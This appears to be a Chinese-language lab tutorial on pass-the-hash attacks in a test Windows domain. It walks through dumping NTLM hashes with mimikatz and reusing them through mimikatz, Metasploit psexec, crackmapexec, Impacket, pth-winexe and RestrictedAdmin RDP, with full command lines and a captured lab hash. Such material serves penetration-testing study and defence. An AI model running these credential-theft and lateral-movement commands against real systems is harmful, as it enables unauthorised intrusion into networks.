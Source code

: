 ## PTH的利用
### PTH简介
path-the-hash,中文直译过来就是hash传递，在域中是一种比较常用的攻击方式。
pth攻击的流程是这样的：
1. 获取一台域内主机最高权限
2. 利用工具获取ntlm-hash
3. 使用工具利用hash尝试登录域内其他主机

### 实验环境
域控 winserver2019 192.168.50.128 192.168.6.130（双网卡）
域主机 win7 sp1 192.168.50.129（域管曾登陆过）
攻击机 物理机&kali虚拟机

### hash获取
哈希的获取一般还是mimikatz比较方便，直接用上一篇博客编译好的mimikatz上传到win7上。
运行
```shell
mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords full"" exit >> pass.txt
```
直接获得域管的哈希，因为是win7所以其实是可以直接获取明文密码的，这里假装不知道，只是用hash。
抓到的administrator的ntlm-hash是：`b0093b0887bf1b515a90cf123bce7fba`

### mimikatz的PTH
- pth开启cmd
mimikatz命令是
```
sekurlsa::pth /user:administrator /domain:no0b.net /ntlm:b0093b0887bf1b515a90cf123bce7fba
```
可以直接开启一个域管的cmd，如下图

![mimikatz_pth_cmd](./mimikatz_pth_cmd.png)

### metasploit
metasploit在域控机器上执行
在metasploit中使用的其实还是psexec这种执行命令的工具。
具体以使用最基本的psexec为例。
```
msf5 > use exploit/windows/smb/psexec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf5 exploit(windows/smb/psexec) > set rhosts 192.168.50.129
rhosts => 192.168.50.129
msf5 exploit(windows/smb/psexec) > set smbuser administrator
smbuser => administrator
msf5 exploit(windows/smb/psexec) > set smbdomain no0b.net
smbdomain => no0b.net
msf5 exploit(windows/smb/psexec) > set smbpass 00000000000000000000000000000000:b0093b0887bf1b515a90cf123bce7fba
smbpass => 00000000000000000000000000000000:b0093b0887bf1b515a90cf123bce7fba
msf5 exploit(windows/smb/psexec) > exploit
```
这样就可以获得一个shell，执行sysinfo可以看到信息，如下

![msf_psexec_shell](.\msf_psexec_shell.png)

除此之外，metasploit还有smb_login等模块不同协议可以利用PTH。

### Crackmapexec
Crackmapexec这个工具可以在kali上直接安装`apt-get install Crackmapexec`即可。
使用方式是：`crackmapexec smb ip -u Administrator -H ntlm-hash -x command`。
对域主机win7执行whoami，如下图

![msf_psexec_shell](D:\md\PTH的利用\msf_psexec_shell.png

![Crackmapexec_smb](.\Crackmapexec_smb.png)

Crackmapexec这个工具不止这些用法，日后可以单独写一篇使用技巧。
### Impacket
Impacket是一款功能非常强大的工具包，在我们与服务器交互时大有帮助。
对于pth的利用Impacket有很多工具，最直接的就是smbclient.py和psexec.py。
smbclient.py的命令是`python3 smbclient.py -hashes 00000000000000000000000000000000:ntlm-hash domain/Administrator@ip`

执行效果如下图

![impacket_smb](.\impacket_smb.png)

psexec.py的命令是`python psexec.py -hashes 00000000000000000000000000000000:ntlm-hash domain/Administrator@ip`

执行效果如下图

![impacket_psexec](.\impacket_psexec.png)

### kali PTH工具包
kali本身也是自带PTH攻击的工具包的，功能不少。
![kali-PTH](.\kali-PTH.png)

以使用pth-winexe来进行PTH攻击。
命令是`pth-winexe -U domain/Administrator%00000000000000000000000000000000:ntlm-hash //ip cmd`

![pth-winexe](.\pth-winexe.png)


### pth-RDP
pth攻击的利用还可以用来远程桌面登录。
这里以mimikatz为例。
mimikatz的命令是`sekurlsa::pth /user:administrator /domain:no0b.net /ntlm:b0093b0887bf1b515a90cf123bce7fba "/run:mstsc.exe /restrictedadmin"
`

![mimikatz_pth_rdp](.\mimikatz_pth_rdp.png)

值得注意的是这里需要远程桌面开启restrictedadmin模式。开启的命令是
`REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v DisableRestrictedAdmin /t REG_DWORD /d 00000000 /f
`
同时这个模式对RDP的版本也有要求，最低未8.1。目前win8/winserver2012R2及以上的版本都是高于8.1的，只需要改注册表就可以打开。
但是本次使用的win7就需要安装一系列补丁从而升级到rdp8.1版本。(查看rdp版本可以打开rdp的窗口后右键查看关于)
![RDP_about](.\RDP_about.png)
对于win7 sp1升级到RDP8.1，以下安装的补丁仅供参考。
![win7sp1_to_rdp8.1](.\win7sp1_to_rdp8.1.png)

## 参考链接
https://www.4hou.com/posts/DPqY （原文链接：https://www.hackingarticles.in/lateral-movement-pass-the-hash-attack/）

